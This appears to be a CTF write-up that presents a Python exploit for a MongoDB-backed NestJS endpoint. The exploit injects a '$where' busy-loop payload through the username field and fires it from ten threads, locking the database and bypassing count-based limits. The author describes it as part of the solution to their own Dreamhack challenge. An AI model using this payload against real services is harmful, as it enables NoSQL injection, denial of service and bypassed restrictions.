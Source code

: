 ```yaml
---
title: MongoDB Race Condition payload
date: 2024-01-30
categories: [Payload]
tags: [Write up]
---
```


## Information 
Target: `MongoDB`  
Vulnerability: `Race Condition`

## Desc
MongoDB Race Condition Attack with db lock.  

## Example
### Code
```javascript
// admin.controller.ts
@Post('list')
async getFlagList(@Body() listDto: ListDto): Promise<FlagDocument[]> {
	return await this.adminService.getFlagList(listDto.username);
}
```
### Exploit
```python
import threading
import json

# Logic Vulnerability - Database Lock
def lock():
    res = requests.post(f"{url}/admin/list", headers=auth,
                        json={"username": '''admin", "$or": [{"dummy": "dummy"},{"$where": "date=new Date();do{cur=new Date();}while(cur-date<5000) + 1 || true"}], "":"'''})
    print(res.text)

threads = []
for i in range(10):
    thread = threading.Thread(target=lock)
    threads.append(thread)
    thread.start()
```
It takes a long time to count the number of existing documents in the DB, so logic such as number restrictions can be bypassed.

## Comment
This is part of the solution for the challenge I made. ( For dreamhack X-mas CTF )  
[Challenge Link](https://dreamhack.io/wargame/challenges/1061)  
[Ref](https://www.hahwul.com/2016/01/12/web-hacking-nosql-injection-mongodb/)